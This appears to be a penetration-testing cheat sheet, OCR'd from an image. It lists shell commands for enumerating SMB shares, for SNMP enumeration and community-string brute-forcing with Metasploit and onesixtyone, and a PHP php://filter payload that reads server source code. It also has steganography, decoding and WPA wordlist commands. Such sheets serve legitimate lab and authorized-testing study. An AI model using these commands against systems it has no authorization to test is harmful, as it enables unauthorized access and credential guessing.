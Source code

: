 #mount SMB (Netbios/Windows) shares in Linux
smbclient -L \\WIN7\ -I 192.168.13.218
smbclient -L \\WIN7\ADMIN$  -I 192.168.13.218
smbclient -L \\WIN7\C$ -I 192.168.13.218
smbclient -L \\WIN7\IPC$ -I 192.168.13.218
smbclient '\\192.168.13.236\some-share' -o user=root,pass=root,workgroup=BOB

#mount MSB shares in Windows (via cmd)
net use X: \\<server>\<sharename> /USER:<domain>\<username> <password> /PERSISTENT:YES

    == SNMP ==
nmap -sU -p 161 --script=*snmp* 192.168.1.200
xprobe2 -v -p udp:161:open 192.168.1.200

msf >  use auxiliary/scanner/snmp/snmp_login
msf > use auxiliary/scanner/snmp/snmp_enum

snmp-check 192.168.1.2 -c public
snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
onesixtyone -c /usr/share/wordlists/dirb/small.txt 192.168.1.200  // find communities with bruteforce
for i in $(cat /usr/share/wordlists/metasploit/unix_users.txt);do snmpwalk -v 1 -c $i 192.168.1.200;done| grep -e "Timeout" // find communities with bruteforce


 == PHP ==
## Read PHP source code with php://filter
http://192.168.56.129/?page=upload   // original page
http://192.168.0.105/?page=php://filter/convert.base64-encode/resource=upload
curl http://192.168.0.105/?page=php://filter/convert.base64-encode/resource=upload
-- The result needs to be decoded from Base64


 == STENOGRAPHICS / EXIF ==
exiftool somephoto.png
steghide extract -sf ./file.wav
steghide extract -sf ./image.jpg
steghide info ./image.jpg

# Connect to IMAP SSL
openssl s_client -connect 192.168.44.133:993 -crlf

# Decode Base64 Encoded Values
echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

# Decode Hexidecimal Encoded Values
echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps

# Remove words less than 8 characters (for WPA)
cat really_big_list.txt | sort -u | pw-inspector -m 8 -M 63 > wpa_wordlist.txt

